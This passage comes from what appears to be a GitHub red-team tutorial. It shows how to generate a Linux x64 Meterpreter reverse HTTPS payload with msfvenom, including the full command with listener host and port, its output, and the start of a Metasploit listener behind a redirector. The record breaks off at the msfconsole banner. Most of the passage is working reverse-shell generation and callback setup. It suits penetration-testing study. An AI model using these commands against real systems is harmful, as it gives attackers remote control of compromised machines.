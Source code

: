```console

    Name  Current Setting  Required  Description
    ----  ---------------  --------  -----------
```

You can see that the Basic options of LHOST and LPORT are required. To input these options, you put the variables in after the payload, before the next argument.   
`msfvenom -p linux/x64/meterpreter_reverse_https LPORT=8443 LHOST=10.0.0.1`   

After this, other important arguments are:   
```
--arch              # Set Architecture    
--platform          # Set Platform   
-f                  # Set Format   
-e                  # Set Encoders   
-o                  # Set Outfile   
```
All of these arguments can be used with --list to show valid options.   

For our scenario, -f elf was used.

The final command should look as follows:   
```console
root@kali:~# msfvenom -p linux/x64/meterpreter_reverse_https LPORT=443 LHOST=10.0.0.1 -f elf -o reverse_shell
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1046512 bytes
Final size of elf file: 1046512 bytes
Saved as: reverse_shell
```


## <a name="callback">Receiving our Callback<a/>

First we will need to allow traffic through our redirector to receive our payloads.  For a reference on how to do this, visit my [Redirector](https://github.com/vipertooth/Notes/blob/master/digitalocean/redirector.md) and [Iptables](https://github.com/vipertooth/Notes/blob/master/digitalocean/setup.md#setting-up-iptables-rules) writeups.   

To catch our callback, we will use Metasploit. To start Metasploit, run msfconsole.

```console
root@kali:~# msfconsole
                          ########                  #
                      #################            #
                   ######################         #
                  #########################      #
                ############################
               ##############################
               ###############################
              ###############################
              ##############################
                              #    ########   #
                 ##        ###        ####   ##
                                      ###   ###
                                    ####   ###
               ####          ##########   ####
               #######################   ####
                 ####################   ####
                  ##################  ####
                    ############      ##
                       ########        ###
                      #########        #####
                    ############      ######
                   ########      #########
```